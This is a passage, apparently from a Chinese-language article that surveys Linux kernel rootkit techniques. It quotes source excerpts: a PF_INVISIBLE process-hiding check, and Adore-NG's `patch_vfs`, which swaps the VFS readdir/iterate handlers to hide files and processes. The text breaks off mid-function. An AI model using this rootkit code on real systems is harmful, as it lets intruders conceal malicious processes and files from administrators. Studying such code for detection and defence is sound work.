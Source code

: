 ```cpp
	}
	return NULL;
}

int
is_invisible(pid_t pid)
{
	struct task_struct *task;
	if (!pid)
		return 0;
	task = find_task(pid);
	if (!task)
		return 0;
	if (task->flags & PF_INVISIBLE)
		return 1;
	return 0;
}
```

2、[Adore-NG](https://github.com/yaoyumeng/adore-ng/)

-   [文件隐藏]()：通过修改VFS中的`file_operations`的实现来完成的，主要是`f_op->readdir`、`f_op->iterate`这两个方法
-   [进程隐藏](https://github.com/yaoyumeng/adore-ng/blob/master/adore-ng.c#L193)：同上，也通过修改VFS的`procfs`类型的上述方法来实现

```CPP
/*
patch_vfs(proc_fs, &orig_proc_readdir, adore_proc_readdir);
patch_vfs(root_fs, &orig_root_readdir, adore_root_readdir);
patch_vfs(proc_fs, &orig_proc_iterate, adore_proc_iterate);
patch_vfs(root_fs, &orig_root_iterate, adore_root_iterate);
*/
int patch_vfs(const char *p, 
#if (LINUX_VERSION_CODE < KERNEL_VERSION(3, 11, 0))
			readdir_t *orig_readdir, readdir_t new_readdir
#else
			iterate_dir_t *orig_iterate, iterate_dir_t new_iterate
#endif
			)
{
	struct file_operations *new_op;
	struct file *filep;

	filep = filp_open(p, O_RDONLY|O_DIRECTORY, 0);
	if (IS_ERR(filep)) {
        return -1;
	}
	
#if (LINUX_VERSION_CODE < KERNEL_VERSION(3, 11, 0))
	if (orig_readdir)
        //保存原始vfs的实现
		*orig_readdir = filep->f_op->readdir;
#else
	if (orig_iterate)
        //保存原始vfs的实现
		*orig_iterate = filep->f_op->iterate;
#endif

	new_op = (struct file_operations *)filep->f_op;
#if (LINUX_VERSION_CODE < KERNEL_VERSION(3, 11, 0))	
	new_op->readdir = new_readdir;  //替换掉系统的readdir实现
#else
	new_op->iterate = new_iterate;  //替换掉系统的iterate实现
	printk("patch starting, %p --> %p\n", *orig_iterate, new_iterate);
```